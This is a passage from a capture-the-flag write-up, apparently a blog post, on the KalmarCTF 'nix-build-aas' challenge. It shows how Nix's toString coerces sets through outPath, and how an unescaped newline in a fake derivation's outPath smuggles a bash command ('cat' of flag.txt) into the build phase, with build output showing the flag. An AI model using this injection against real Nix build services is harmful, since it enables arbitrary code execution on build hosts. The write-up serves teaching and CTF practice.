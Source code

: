 ```
nix-repl> toString my-drv
"/nix/store/d62izaahds46siwr2b7k7q3gan6vw4p0-test"

nix-repl> toString (my-drv // { type = ""; })
"/nix/store/d62izaahds46siwr2b7k7q3gan6vw4p0-test"

nix-repl> toString { }

       error: cannot coerce a set to a string: { }

nix-repl> toString { type = "derivation"; }

       error: cannot coerce a set to a string: { type = "derivation"; }

nix-repl> toString { type = "derivation"; outPath = "foo"; }
"foo"

nix-repl> toString { outPath = "foo"; }
"foo"

nix-repl> toString { outPath = {}; }

       error: cannot coerce a set to a string: { }

nix-repl> toString { outPath = 1; }
"1"

nix-repl> toString { outPath = { outPath = "bar"; }; }
"bar"
```

This is actually [documented under the `toString` builtin][toString], I just had
never stumbled upon it before.

Using this, it is possible to execute arbitrary bash code during the build process,
since the contents of `outPath` are not escaped:

```nix, hl_lines=3
{
  type = "derivation";
  outPath = "\n cat ${./flag.txt} \n #";
}
```

If we build the derivation, we can see that we are indeed executing code:

```hl_lines=10
❯ ./chall.sh
this derivation will be built:
  /nix/store/ymcc7hmyvpi436v8323fqpxwsjh1m1l6-nixjail-0.0.1.drv
building '/nix/store/ymcc7hmyvpi436v8323fqpxwsjh1m1l6-nixjail-0.0.1.drv'...
Running phase: patchPhase
Running phase: updateAutotoolsGnuConfigScriptsPhase
Running phase: configurePhase
no configure script, doing nothing
Running phase: buildPhase
kalmar{this-is-the-right-one}
Running phase: installPhase
Running phase: fixupPhase
shrinking RPATHs of ELF executables and libraries in /nix/store/1r56knjxd9zw7680m6p6lg7hkdx2yz3g-nixjail-0.0.1
checking for references to /build/ in /nix/store/1r56knjxd9zw7680m6p6lg7hkdx2yz3g-nixjail-0.0.1...
patching script interpreter paths in /nix/store/1r56knjxd9zw7680m6p6lg7hkdx2yz3g-nixjail-0.0.1
/nix/store/1r56knjxd9zw7680m6p6lg7hkdx2yz3g-nixjail-0.0.1
```


[reproducible-pwning]: /blog/kalmarctf-writeup-reproducible-pwning
[handout]: https://github.com/kalmarunionenctf/kalmarctf/tree/main/2025/misc/nix-build-aas
[ifd]: https://nix.dev/manual/nix/2.24/language/import-from-derivation
[scopedImport-undocumented]: https://github.com/NixOS/nix/issues/1450
[nix-underscore-builtins]: https://discourse.nixos.org/t/readfile-vs-builtins-readfile/12355/3
[overloading-ops]: https://github.com/NixOS/nix/issues/7290#issuecomment-1546846723
[fod]: https://nix.dev/manual/nix/2.24/language/advanced-attributes.html#adv-attr-outputHash
[isDerivation]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/lib/attrsets.nix#L1250-L1282
[nixpkgs]: https://github.com/NixOS/nixpkgs
[derivation]: https://nix.dev/manual/nix/2.24/language/derivations.html
[toString]: https://nix.dev/manual/nix/2.24/language/builtins#builtins-toString
[mkDerivation-getDev]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/pkgs/stdenv/generic/make-derivation.nix#L346
[mkDerivation-PATH]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/pkgs/stdenv/generic/setup.sh#L819
[getDev]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/lib/attrsets.nix#L1933-L1960
[getOutput]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/lib/attrsets.nix#L1763-L1799
[hello-fetchurl]: https://github.com/NixOS/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/pkgs/by-name/he/hello/package.nix#L16-L19
[fetchurl]: https://github.com/nixos/nixpkgs/blob/8532db2a88ba56de9188af72134d93e39fd825f3/pkgs/build-support/fetchurl/default.nix
[@nrab@hachyderm.io]: https://hachyderm.io/@nrab
[Kalmarunionen]: https://www.kalmarunionen.dk/